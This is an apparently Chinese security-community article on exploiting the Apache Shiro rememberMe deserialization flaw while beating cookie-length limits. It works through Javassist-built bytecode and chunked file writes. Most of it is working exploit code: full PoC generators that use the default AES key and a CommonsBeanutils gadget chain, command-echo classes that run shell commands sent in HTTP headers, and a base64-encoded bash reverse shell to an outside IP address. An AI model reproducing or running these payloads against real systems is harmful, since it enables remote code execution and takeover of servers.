






# Javassist动态构造和分块传输字节码绕过Shiro Cookie长度限制分析-先知社区

> **来源**: https://xz.aliyun.com/news/16970  
> **文章ID**: 16970

---

## Javassist动态构造绕过Shiro cookie长度限制

### Payload缩短背景

**WAF会对rememberMe长度进行限制,甚至解密payload检查反序列化class**，可以通过序列化数据本身缩小、针对TemplatesImpl中的\_bytecodes字节码缩小、对于执行的代码如何缩小(STATIC代码块)等方面进行缩短，**本文重点利用Javassist动态构造和分块传输字节码绕过Shiro Cookie长度限制**

### Attack 分析利用

shiro在实战中经常是一个登录页面  


检测指纹：抓包看到rememberme字段猜测为shiro框架  


### Shiro漏洞简言

Apache Shiro框架提供了记住我的功能（RememberMe），用户登陆成功后会生成经过加密并编码的cookie，在服务端接收cookie值后，Base64解码–>AES解密–>反序列化。攻击者只要找到AES加密的密钥，就可以构造一个恶意对象，对其进行序列化–>AES加密–>Base64编码，然后将其作为cookie的rememberMe字段发送，Shiro将rememberMe进行解密并且反序列化，最终造成反序列化漏洞。

加解密流程如下：

* 客户端：命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值
* 服务端：RememberMe Cookie值=>base64解密=>AES解密=>反序列化

​

### 对于没有WAF的低版本Shiro：

针对`shiro`的特征，首先尝试使用shiro反序列化利用工具爆破`shiro` 的`AES`加密使用的`key`  
  
拿到`key`：`kPH+bIxk5D2deZiIxcaaaA==`后发现是`shiro 1.2.4`默认的`key`  
爆破所有利用链发现，没有可利用的链  


**实战中难点在于对cookie长度进行了限制**导致不能直接爆破出利用链，可测试出传入Cookie的字符串需要小于大约3500个字符

### shiro无依赖利用链

`Shiro`是依赖于`commons-beanutils`的，比如对于如下`pom.xml`，我并没有引入任何有关`cb`的依赖，但却可以发现通过引入`shiro 1.2.4`间接引入`cb1.8.3`:



### 值得注意的坑点

1. **Shiro中自带的commons-beanutils与我们本地的版本不一致，就可能在反序列化时出现serialVersionUID对应不上的问题**
2. commons-beanutils本来依赖于commons-collections，但是在Shiro中，它的commons-beanutils虽然包含了一部分commons-collections的类，但却不全。这也导致，正常使用Shiro的时候不需要依赖于commons-collections，但反序列化利用的时候需要依赖于commons-collections。

所以我们pom中CB依赖版本要和`shiro`给的对上

```
<dependency>  
<groupId>commons-beanutils</groupId>  
<artifactId>commons-beanutils</artifactId>  
<version>1.8.3</version>  
</dependency>  
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->  
<dependency>  
<groupId>commons-collections</groupId>  
<artifactId>commons-collections</artifactId>  
<version>3.1</version>  
</dependency>  
<dependency>  
<groupId>org.apache.shiro</groupId>  
<artifactId>shiro-spring</artifactId>  
<version>1.2.4</version>  
</dependency>
```

### 如何缩短我们的内存马 payload

​

需要解决的问题 -> 由于不出网无回显，所以还是要打内存马，而通常的内存马生产的payload长度不符合要求。

#### 关键就是利用`Javassist`将写死的恶意类通过动态构造实现缩短

比如对于之前我们弹计算器的恶意类`Clac.java`:

恶意类是写死的，无法动态构造，想要动态构造字节码一种手段是选择ASM做，但有更好的选择：Javassist

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;  
import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
import java.io.IOException;  
  
public class Clac extends AbstractTranslet {  
  
public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {  
}  
  
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {  
}  
  
static {  
try {  
Runtime.getRuntime().exec("calc");  
} catch (IOException var1) {  
var1.printStackTrace();  
}  
  
}  
}
```

可以看到，我们不光需要实现`AbstractTranslet`中定义的抽象方法，还得引入大量其它包中的类。这样一来就导致我们的`payload`长度增加。

​

最后缩短长度构造如下，通过`Javassist`库动态生成一个类，并在类的构造函数中执行从HTTP请求头获取的命令

```
public static CtClass genPayloadForLinux2() throws NotFoundException, CannotCompileException {  
ClassPool classPool = ClassPool.getDefault();  
CtClass clazz = classPool.makeClass("A");  
if ((clazz.getDeclaredConstructors()).length != 0) {  
clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);  
}  
clazz.addConstructor(CtNewConstructor.make("public A() throws Exception {
" +  
" org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
" +  
" javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
" +  
" javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
" +  
" String[] cmd = new String[]{"sh", "-c", httprequest.getHeader("C")};
" +  
" byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
" +  
" httpresponse.getWriter().write(new String(result));
" +  
" httpresponse.getWriter().flush();
" +  
" httpresponse.getWriter().close();
" +  
" }", clazz));  
// 兼容低版本jdk  
clazz.getClassFile().setMajorVersion(50);  
CtClass superClass = classPool.get(AbstractTranslet.class.getName());  
clazz.setSuperclass(superClass);  
return clazz;  
}
```

### Block Transmission 分块传输

以上的内容都在围绕字节码和序列化数据的缩小，已经做到的**接近极致**，很难做到更小的。  
对于STATIC代码块中需要执行的代码也有缩小手段，这也是更有实战意义是思考，因为实战中不是弹个计算器这么简单，因此可以用**追加的方式发送多个请求往指定文件中写入字节码，将真正需要执行的字节码分块**  
使用Javassist动态生成写入每一分块的Payload，以追加的方式将所有字节码的Base64写入某文件

```
static {
    try {
        String path = "/your/path";
        // 创建文件
        File file = new File(path);
        file.createNewFile();
        // 传入true是追加方式写文件
        FileOutputStream fos = new FileOutputStream(path, true);
        // 需要写入的数据
        String data = "BASE64_BYTECODES_PART";
        fos.write(data.getBytes());
        fos.close();
    } catch (Exception ignore) {
    }
```

在最后一个包中将字节码进行Base64Decode并写入class文件（也可以直接写字节码二进制数据，不过认为Base64好分割处理一些）

```
static {
    try {
        String path = "/your/path";
        FileInputStream fis = new FileInputStream(path);
        // size取决于实际情况
        byte[] data = new byte[size];
        fis.read(data);
        // 写入Evil.class
        FileOutputStream fos = new FileOutputStream("Evil.class");
        fos.write(Base64.getDecoder().decode(data));
        fos.close();
    } catch (Exception ignored) {
    }
}
```

### 出网利用方式

利用不依赖CC链的CB链POC如下：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import javassist.ClassPool;  
import javassist.CtClass;  
import org.apache.commons.beanutils.BeanComparator;  
import org.apache.shiro.codec.Base64;  
import org.apache.shiro.codec.CodecSupport;  
import org.apache.shiro.crypto.AesCipherService;  
import org.apache.shiro.util.ByteSource;  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.util.PriorityQueue;  
  
  
//shiro无依赖利用链，使用shiro1.2.4自带的cb 1.8.3  
public class Cc1 {  
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj, value);  
    }  
  
    public static void main(String[] args) throws Exception {  
        TemplatesImpl templates = getTemplate();  
  
        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);  
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);  
        // stub data for replacement later  
        queue.add("1");  
        queue.add("1");  
  
        setFieldValue(comparator, "property", "outputProperties");  
        setFieldValue(queue, "queue", new Object[]{templates, templates});  
  
        // ==================  
        // 生成序列化字符串  
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);  
        objectOutputStream.writeObject(queue);  
        AesCipherService aes = new AesCipherService();  
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));//shiro默认密钥  
        byte[] bytes = byteArrayOutputStream.toByteArray();  
  
        ByteSource ciphertext;  
        ciphertext = aes.encrypt(bytes, key);  
        System.out.println(ciphertext);  
    }  
    public static TemplatesImpl getTemplate() throws Exception {  
  
        ClassPool classPool = ClassPool.getDefault();  
        CtClass clz = classPool.get(Calc.class.getName());  
  
        TemplatesImpl obj = new TemplatesImpl();  
        setFieldValue(obj, "_bytecodes", new byte[][]{clz.toBytecode()});  
        setFieldValue(obj, "_name", "HelloTemplatesImpl");  
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());  
        return obj;  
    }  
  
}
```

Calc恶意类源码：

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;  
import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
import java.io.IOException;  
public class Calc extends AbstractTranslet {  
    @Override  
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {  
    }  
    @Override  
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {  
    }  
    static {  
        try {  
            Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtYyAgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvNDcuMTIwLjMzLjI1NS84OTk5IDA+JjEn}|{base64,-d}|{bash,-i}");  
            //Runtime.getRuntime().exec("calc");  
        } catch (IOException e) {  
            e.printStackTrace();  
        }  
    }  
}
```

### 不出网利用方式

上文说到利用条件需要传入Cookie的字符串需要小于大约3500个字符，可使用下方方式。首先`DynamicClassGenerator`用来生成恶意`class`，针对不同系统使用不同的方法即可。

​

生成利用如下：

```
package com.ctf;  
  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import javassist.CannotCompileException;  
import javassist.ClassPool;  
import javassist.CtClass;  
import javassist.CtNewConstructor;  
import javassist.NotFoundException;  
  
import java.io.IOException;  
  
public class DynamicClassGenerator {  
    public CtClass genPayloadForWin() throws NotFoundException, CannotCompileException, IOException {  
        ClassPool classPool = ClassPool.getDefault();  
        CtClass clazz = classPool.makeClass("Exp");  
  
        if ((clazz.getDeclaredConstructors()).length != 0) {  
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);  
        }        clazz.addConstructor(CtNewConstructor.make("public SpringEcho() throws Exception {
" +  
                "            try {
" +  
                "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
" +  
                "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
" +  
                "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
" +  
                "
" +  
                "                String te = httprequest.getHeader("Host");
" +  
                "                httpresponse.addHeader("Host", te);
" +  
                "                String tc = httprequest.getHeader("CMD");
" +  
                "                if (tc != null && !tc.isEmpty()) {
" +  
                "                    String[] cmd = new String[]{"cmd.exe", "/c", tc};  
" +  
                "                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
" +  
                "                    httpresponse.getWriter().write(new String(result));
" +  
                "
" +  
                "                }
" +  
                "                httpresponse.getWriter().flush();
" +  
                "                httpresponse.getWriter().close();
" +  
                "            } catch (Exception e) {
" +  
                "                e.getStackTrace();
" +  
                "            }
" +  
                "        }", clazz));  
  
        // 兼容低版本jdk  
        clazz.getClassFile().setMajorVersion(50);  
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());  
        clazz.setSuperclass(superClass);  
        return clazz;  
    }    
    public CtClass genPayloadForLinux() throws NotFoundException, CannotCompileException {  
        ClassPool classPool = ClassPool.getDefault();  
        CtClass clazz = classPool.makeClass("Exp");  
  
        if ((clazz.getDeclaredConstructors()).length != 0) {  
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);  
        }        clazz.addConstructor(CtNewConstructor.make("public SpringEcho() throws Exception {
" +  
                "            try {
" +  
                "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
" +  
                "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
" +  
                "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
" +  
                "
" +  
                "                String te = httprequest.getHeader("Host");
" +  
                "                httpresponse.addHeader("Host", te);
" +  
                "                String tc = httprequest.getHeader("CMD");
" +  
                "                if (tc != null && !tc.isEmpty()) {
" +  
                "                    String[] cmd =  new String[]{"/bin/sh", "-c", tc};
" +  
                "                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
" +  
                "                    httpresponse.getWriter().write(new String(result));
" +  
                "
" +  
                "                }
" +  
                "                httpresponse.getWriter().flush();
" +  
                "                httpresponse.getWriter().close();
" +  
                "            } catch (Exception e) {
" +  
                "                e.getStackTrace();
" +  
                "            }
" +  
                "        }", clazz));  
  
        // 兼容低版本jdk  
        clazz.getClassFile().setMajorVersion(50);  
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());  
        clazz.setSuperclass(superClass);  
        return clazz;  
    }}
```

Poc源码：

```
package com.ctf;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import javassist.CtClass;  
import org.apache.commons.beanutils.BeanComparator;  
import org.apache.shiro.codec.Base64;  
import org.apache.shiro.codec.CodecSupport;  
import org.apache.shiro.crypto.AesCipherService;  
import org.apache.shiro.util.ByteSource;  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.util.PriorityQueue;  
  
  
//shiro无依赖利用链，使用shiro1.2.4自带的cb 1.8.3  
public class POJOJackson {  
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj, value);  
    }  
    public static void main(String[] args) throws Exception {  
        TemplatesImpl templates = getTemplate();  
  
        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);  
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);  
        // stub data for replacement later  
        queue.add("1");  
        queue.add("1");  
  
        setFieldValue(comparator, "property", "outputProperties");  
        setFieldValue(queue, "queue", new Object[]{templates, templates});  
  
        // ==================  
        // 生成序列化字符串  
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);  
        objectOutputStream.writeObject(queue);  
        AesCipherService aes = new AesCipherService();  
        byte[] key = Base64.decode(CodecSupport.toBytes("YXwk8qZKbKD43QhpRNNr9g=="));//shiro默认密钥  
        byte[] bytes = byteArrayOutputStream.toByteArray();  
  
        ByteSource ciphertext;  
        ciphertext = aes.encrypt(bytes, key);  
        System.out.println(ciphertext);  
    }    public static TemplatesImpl getTemplate() throws Exception {  
        DynamicClassGenerator classGenerator =new DynamicClassGenerator();  
        CtClass clz = classGenerator.genPayloadForLinux();  
  
        TemplatesImpl obj = new TemplatesImpl();  
        setFieldValue(obj, "_bytecodes", new byte[][]{clz.toBytecode()});  
        setFieldValue(obj, "_name", "HelloTemplatesImpl");  
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());  
  
        return obj;  
    }  
}
```

成功绕过cookie长度限制执行命令  

